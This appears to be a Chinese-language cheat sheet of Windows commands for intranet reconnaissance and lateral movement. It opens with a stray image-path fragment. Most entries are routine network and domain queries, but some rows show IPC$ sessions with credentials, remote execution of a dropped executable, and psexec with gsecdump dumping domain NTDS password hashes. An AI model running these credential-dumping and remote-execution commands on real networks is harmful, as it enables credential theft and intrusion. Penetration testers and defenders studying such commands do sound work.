 | `net use \\ip\ipc$ pawword /user:username@domain`            | 建立IPC会话[空连接-***]                                      |
| `net view \\ip`                                              | 查询某IP共享                                                 |
| `net use z: \\192.168.200.21\文件夹名`                       | 建立映射到本机Z盘                                            |
| `net share`                                                  | 查看SMB指向的路径[即共享]                                    |
| `at \\192.168.200.21:50 c:\windows\fuxk.exe`                 | 在共享主机上执行                                             |
| `net view`                                                   | 查询同一域内机器列表                                         |
| `net view /domain`                                           | 查询域列表                                                   |
| `net view /domain:test`                                      | 查看test域中计算机列表                                       |
| `net view \\DC的机器名字`                                    | 查看域控共享情况                                             |
| `nltest /domain_trusts`                                      | 获取域信任信息                                               |
| `net session`                                                | 查看当前会话                                                 |
| `net start`                                                  | 查看当前运行的服务                                           |
| `net time /domain`                                           | 查询主域服务器的时间                                         |
| `net time \\192.168.200.21`                                  | 查看192.168.200.21机器的时间                                 |
| `echo %logonserver%`                                         | 查看登陆到这台服务器的计算机                                 |
| `net accounts`                                               | 查看本地密码策略                                             |
| `net accounts /domain`                                       | 查看域密码策略                                               |
| `nbtstat –A ip`                                              | netbios 查询                                                 |
| `netstat –an/ano/anb`                                        | 网络连接查询                                                 |
| `netsh firewall show config`                                 | 查看防火墙策略                                               |
| `netsh firewall show state`                                  | 查看防火墙策略                                               |
| `route print`                                                | 路由表                                                       |
| `tracert IP`                                                 | 路由跟踪                                                     |
| `arp -a`                                                     | 列出本网段内所有活跃的IP地址                                 |
| `arp -s (ip + mac)`                                          | 绑定mac和IP                                                  |
| `arp -d (iP + mac)`                                          | 解绑IP和Mac                                                  |
| `tasklist /V`                                                | 查看进程[显示对应用户]                                       |
| `tasklist /S ip /U domain\username /P /V`                    | 查看远程计算机进程列表                                       |
| `psexec \\192.168.200.21 -u administrator -p b404pass -c gsecdump.exe -u` | 从域服务器密码存储文件windows/ntds/ntds.dit导出hash值出来    |
| `gsecdump -a`                                                | 获取域登管理员登录过得hash值，这里gescdump为第三方导出AD域的hash值 |
| `tasklist /S IP地址 /U 域名\用户名 /P /V`                    | 查看远程计算机进程                                           |
| `tasklist /svc`                                              | 查看进程                                                     |
| `taskkill /im 进程名称(cmd.exe)`                             | 结束进程                                                     |
| `taskkill /pid[进程码]`                                      | `-t(结束该进程)` `-f(强制结束该进程以及所有子进程)`          |
| `ping 主机名`                                                | 显示IP                                                       |
| `qprocess *`                                                 | 类似tasklist                                                 |
| `qprocess /SERVER:IP`                                        | 远程查看计算机进程列表                                       |